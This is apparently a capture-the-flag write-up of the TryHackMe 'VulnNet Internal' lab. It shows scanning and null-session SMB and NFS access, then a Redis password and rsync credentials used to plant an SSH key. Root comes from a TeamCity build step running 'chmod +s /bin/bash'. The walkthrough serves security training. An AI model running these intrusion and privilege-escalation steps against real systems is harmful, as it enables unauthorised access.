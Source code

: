 ```yaml
---
layout: post
title: TryHackMe Vulnet Internal - Writeup
lang: en
ref: vulnet-internal
---
```


Vulnet is an easy/medium difficulty TryHackMe machine.

![](/assets/writeups/vulnet-internal/vulnet_internal.png)

## Challenge brief

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can’t make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you’re tasked to perform a penetration test of their network and report your findings.

There are four flags that need to be submitted in order to complete the challenge:
- Service Flag
- Internal Flag
- User Flag
- Root Flag

# Enumeration

## Nmap Scan

```bash
nmap -p- -sS -T5 --min-rate 1000 --max-retries=3 --open -vvv -n -Pn 10.10.132.157 -oG allPorts
```

![](/assets/writeups/vulnet-internal/nmap_ports.png)

```bash
nmap -sC -sV -p22,111,139,445,873,2049,6379,40031,40423,44823,53943 10.10.132.157 -oN targeted
```

![](/assets/writeups/vulnet-internal/nmap_services.png)


## Port 139 & 445 - SMB

Let's enumarate with enum4linux

```bash 
enum4linux - a 10.10.132.157

========================================= 
|    Share Enumeration on 10.10.132.157   |
========================================= 
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.132.157
//10.10.132.157/print$   Mapping: DENIED, Listing: N/A
//10.10.132.157/shares   Mapping: OK, Listing: OK
//10.10.132.157/IPC$     [E] Can not understand response:

====================================================================
| Users on 10.10.132.157 via RID cycling (RIDS: 500-550,1000-1050) |
====================================================================

[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-1569020563-4280465252-527208056
[I] Found new SID: S-1-5-32

[+] Enumerating users using SID S-1-5-21-1569020563-4280465252-527208056 and logon username '', password ''
S-1-5-21-1569020563-4280465252-527208056-513 VULNNET-INTERNAL\None (Domain Group)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\sys-internal (Local User)
```

Let's access to `//10.10.132.157/shares` with smbclient using a null session.

![](/assets/writeups/vulnet-internal/smbclient_shares.png)

Inside /tmp we will get the services.txt flag

```bash
$ cat services.txt 
THM{0a09d51e488f5......}
```

## Port 2049 - nfs_acl

Port 2049 is open and noticed that there was a lot of output for port 111. I can see in the output for port 111, that the service NFS was present in the output. This indicates that I might be able to list and download (and maybe upload) files.

More about NFS:

- [2049 - Pentesting NFS Service](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

- [Exploiting NFS share [updated 2021]](https://resources.infosecinstitute.com/topic/exploiting-nfs-share/)

![](/assets/writeups/vulnet-internal/nfs.png)

```bash
mkdir /tmp/infosec
mount -t nfs 10.10.132.157:/opt/conf /tmp/infosec
```

![](/assets/writeups/vulnet-internal/redis_pass.png)

## Port 6379 - Redis

Port 6379 is open, and now we have a password.

`requirepass "B65Hx562...."`

More about Redis:

- [6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

```bash
redis-cli -h 10.10.132.157

AUTH B65Hx562....

info

keys *

GET "internal flag"
"THM{ff8e518addbb.......}"

LRANGE "authlist" 0 100
"QXV0aG9ya...."
```

## Port 873 - Rsync

In the "authlist" key, we found a base64 encoded value, when decoded gives us the credentials for the rsync service.

More about Rsync:

- [873 - Pentesting Rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
nc -vn 10.10.132.157 873

@RSYNCD: 31.0
#list

files
```

```bash
rsync rsync://rsync-connect@10.10.132.157/files/

rsync rsync://rsync-connect@10.10.132.157/files/sys-internal

rsync rsync://rsync-connect@10.10.132.157/files/sys-internal/user.txt .

"THM{da7cc20696.......}"
```

Let's get a shell

```bash
ssh-keygen -o

rsync -av id_rsa.pub rsync://rsync-connect@10.10.132.157/files/sys-internal/.ssh/authorized_keys

ssh -i id_rsa sys-internal@10.10.132.157
```

I now have a SSH access to the target machine.

![](/assets/writeups/vulnet-internal/shell.png)

## Root Privilege Escalation - TeamCity

More about TeamCity:

- [Pentest Teamcity](https://github.com/kacperszurek/pentest_teamcity)

```bash
ssh -L 8111:127.0.0.1:8111 -i id_rsa sys-internal@10.10.132.157
```

Taking a look into the server, inside `/TeamCity/logs` there is a file called `catalina.out`, there we can find the token to log in a super admin.

Now:

```markdown
- Create a project
- Create a build configuration
- Search for build steps
    - New build step (command line)
    - script: `chmod +s /bin/bash`

- Run!
```

![](/assets/writeups/vulnet-internal/suid_bash.png)

![](/assets/writeups/vulnet-internal/run_project.png)

![](/assets/writeups/vulnet-internal/root.png)
